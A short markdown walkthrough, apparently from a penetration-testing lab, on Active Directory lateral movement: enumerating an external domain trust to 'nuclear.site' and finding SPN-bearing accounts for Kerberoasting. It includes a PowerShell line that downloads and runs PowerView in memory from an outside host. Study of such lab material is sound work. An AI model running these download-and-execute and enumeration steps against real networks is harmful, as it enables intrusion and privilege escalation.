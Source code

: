 # Lateral Movement 2

- [Lateral Movement 2](#lateral-movement-2)
  - [External Trust Enumeration](#external-trust-enumeration)
  - [Kerberoasting](#kerberoasting)

---

## External Trust Enumeration

To enumerate, first import `PowerView_dev.ps1`:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1"))
```

<br/>

Then map Domain Trust:

```
Get-NetDomainTrust
```

![picture 29](images/8db1c3a16c4a0616f3e8265ea2fa46b39b5899f1d0bb9fb41899818f3fd71f4b.png)  

As shown, the current domain has a 2-way transitive external trust with the domain `nuclear.site`, which means we can abuse this to access `nuclear.site`.

<br/>

## Kerberoasting

To enumerate users with SPN set in the domain `nuclear.site`:

```
Get-NetUser -SPN -Domain nuclear.site
```

![picture 30](images/d2df022443d492d64e6195c2189609e0d190248628a5f5ad6210168e39261194.png)  

As shown, the user `iis_svc`, a domain admin, has a SPN `HTTP/nuclear-dc.nuclear.site`.

<br/>